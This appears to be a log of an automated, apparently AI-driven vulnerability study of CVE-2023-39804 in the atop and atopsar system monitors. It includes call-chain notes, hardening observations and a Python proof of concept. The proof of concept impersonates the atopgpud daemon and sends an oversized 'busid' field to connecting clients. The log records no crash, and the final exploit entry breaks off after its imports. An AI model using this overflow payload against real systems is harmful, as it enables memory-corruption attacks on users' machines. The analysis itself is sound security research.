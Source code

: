
hardening.makefile.description
[17:49:27]
The Makefile in both the vulnerable and patched versions is identical and lacks common security hardening flags like -fstack-protector-all, -D_FORTIFY_SOURCE=2, and RELRO. This means that the final binary is not as secure as it could be, and other potential memory corruption vulnerabilities might be easier to exploit.


vulnerability.CVE-2023-39804.atopsar.description
[17:49:45]
The atopsar utility is also vulnerable to the same exploit as atop. It uses the same vulnerable `gpucom.c` library to connect to the `atopgpud` daemon, and can be exploited in the same way. This expands the attack surface of the vulnerability.


vulnerability.CVE-2023-39804.atopsar.callstack
[17:53:25]
The atopsar utility is vulnerable through the following call chain: engine() -> gpud_init() -> gpud_statrequest() -> gpud_statresponse() -> reportlive() -> gpuline(). This confirms that atopsar is vulnerable to the same exploit as the main atop program.


vulnerability.CVE-2023-39804.exploit.code
[17:58:33]
import socket

def main():
    overflow_string = "A" * 500
    payload = f"busid {overflow_string} smp 1 mmp 2 gmp 3 dmp 4 mcl 5 scl 6 gputype FAKE_GPU\n"

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind(('0.0.0.0', 4300))
        s.listen()
        conn, addr = s.accept()
        with conn:
            print(f"Connected by {addr}")
            conn.sendall(payload.encode())
            print("Payload sent")

if __name__ == "__main__":
    main()



vulnerability.CVE-2023-39804.exploit.results
[17:58:36]
The exploit successfully sends a malicious payload to the atop and atopsar clients, but does not cause a crash in the sandbox environment. This is likely due to exploit mitigations such as stack canaries or ASLR. The vulnerability is still present, but a more sophisticated exploit would be required to bypass these mitigations. The exploit code is available in shared memory under the key `vulnerability.CVE-2023-39804.exploit.code`.


vulnerability.CVE-2023-39804.exploit.final_code
[18:13:03]
import socket
import struct
import sys
